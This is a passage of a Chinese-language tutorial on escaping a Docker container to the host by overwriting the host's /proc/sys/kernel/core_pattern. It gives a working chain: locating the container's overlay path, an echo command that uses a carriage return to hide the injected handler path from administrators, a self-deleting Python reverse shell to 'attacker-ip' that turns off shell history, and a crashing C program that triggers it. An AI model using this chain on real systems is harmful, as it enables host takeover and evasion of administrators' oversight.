 在许多类 Unix 计算机系统中， procfs 是 进程 文件系统 (file system) 的缩写，包含一个伪文件系统（启动时动态生成的文件系统），用于通过内核访问进程信息。这个文件系统通常被挂载到 /proc 目录。由于 /proc 不是一个真正的文件系统，它也就不占用存储空间，只是占用有限的内存。

procfs中的`/proc/sys/kernel/core_pattern`负责配置进程崩溃时内存转储数据的导出方式。

> 从2.6.19内核版本开始，Linux支持在/proc/sys/kernel/core_pattern中使用新语法。如果该文件中的首个字符是管道符|，那么该行的剩余内容将被当作用户空间程序或脚本解释并执行。

通过下列代码获取容器在宿主机中的绝对路径
```
cat /proc/mounts | grep docker
```

`/host/proc` 为用户挂载进容器的宿主机的 `/proc`目录
```
echo -e "|/var/lib/docker/overlay2/CONTAINERID/merged/tmp/.x.py \rcore           " > /host/proc/sys/kernel/core_pattern
```

这样一来，Linux转储机制在程序发生崩溃时就能够顺利找到我们在容器内部的/tmp/.x.py了。


然而，这也带来一个似乎无法避免的问题——当在宿主机上cat /proc/sys/kernel/core_pattern时，由于我们写入的路径过长（/var/lib/......），管理员一定会发现异常。

`/temp/.x.py`: 反弹Shell到攻击者

```
import os
import pty
import socket
lhost = "attacker-ip"
lport = 10000
def main():
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((lhost, lport))
    os.dup2(s.fileno(), 0)
    os.dup2(s.fileno(), 1)
    os.dup2(s.fileno(), 2)
    os.putenv("HISTFILE", '/dev/null')
    pty.spawn("/bin/bash")
    os.remove('/tmp/.x.py')
    s.close()
if __name__ == "__main__":
    main()
```

最后，在容器内运行一个可以崩溃的程序：

```
#include <stdio.h>
int main(void)
{
    int *a = NULL;
    *a = 1;
    return 0;
}
```
## 程序漏洞导致的容器逃逸
